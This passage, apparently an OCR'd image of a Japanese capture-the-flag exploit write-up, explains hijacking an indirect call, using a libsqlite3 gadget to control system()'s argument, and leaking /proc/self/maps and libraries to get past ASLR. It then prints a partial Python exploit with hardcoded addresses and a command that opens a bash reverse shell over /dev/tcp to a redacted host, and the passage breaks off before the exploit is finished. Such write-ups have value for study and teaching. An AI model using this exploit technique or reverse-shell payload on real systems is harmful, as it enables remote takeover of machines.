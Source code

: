     入力によってcall先とrdi(第一引数), raxの指すデータを制御できることが分かる。
     
    第一引数(rdi)の指すデータの8byte後に(呼び出す関数のポインタへのアドレス - 0x80)を
    格納する必要 があるため、 第一引数の文字列に使える領域が実質8byteしかない。
    したがって、直接system()をcallしてリバースシェルを起動することはできない。
    .data領域は実行不可なので、 メモリ上の実行可能な領域から使えそうなコード片を探し出
    し、第一引数を変更した後system()を呼んでもらうことにした。
     
    libsqlite3.so.0.8.6にちょうどいいコードがあるのでこれを使う。 (探すのが大変だった)
       328cc:       48 8b 1f                mov    rbx,QWORD PTR [rdi]          <-!!
       328cf:       4c 8b 8d 48 02 00 00    mov    r9,QWORD PTR [rbp+0x248]
       328d6:       48 03 43 20             add    rax,QWORD PTR [rbx+0x20]
       328da:       48 8b bb 88 01 00 00    mov    rdi,QWORD PTR [rbx+0x188]    <-!!
       328e1:       4c 8b 38                mov    r15,QWORD PTR [rax]
       328e4:       4d 89 f8                mov    r8,r15
       328e7:       ff 93 80 01 00 00       call   QWORD PTR [rbx+0x180]        <-!!
     
    リモートの環境では、
    ・ライブラリや実行ファイルのロードされる位置 (ASLR)
    ・ライブラリ内の関数のオフセット
    が違うので、 DOGE1の脆弱性でリモートから
    ・メモリマップ (/proc/self/maps)
    ・ライブラリ
    　・/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
    　・/lib/x86_64-linux-gnu/libc-2.17.so
    を取得し、バッファと呼び出す関数のアドレスを調整する。
     
    あとはexploitを打ち込むだけ
     
    exploit:
    """
    import sys
    import struct
    BASE = 0x7fc247b12000
    BUF = BASE + 0x20b220
    LIBC_BASE = 0x7fc248e7f000
    SYSTEM = LIBC_BASE + 0x46320
    OBJECT = BUF + 1040
    COMMAND = "bash -c \"bash -p >& /dev/tcp/**/43210 0>&1\"\0"
     
    #/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6
    SQLITE_BASE = 0x7fc246bed000
    GADGET = SQLITE_BASE + 0x328cc
    """
       328cc:       48 8b 1f                mov    rbx,QWORD PTR [rdi]
       328cf:       4c 8b 8d 48 02 00 00    mov    r9,QWORD PTR [rbp+0x248]
       328d6:       48 03 43 20             add    rax,QWORD PTR [rbx+0x20]
       328da:       48 8b bb 88 01 00 00    mov    rdi,QWORD PTR [rbx+0x188]
       328e1:       4c 8b 38                mov    r15,QWORD PTR [rax]
       328e4:       4d 89 f8                mov    r8,r15
       328e7:       ff 93 80 01 00 00       call   QWORD PTR [rbx+0x180]
    """
     
    OBJECT = BUF + 1040
     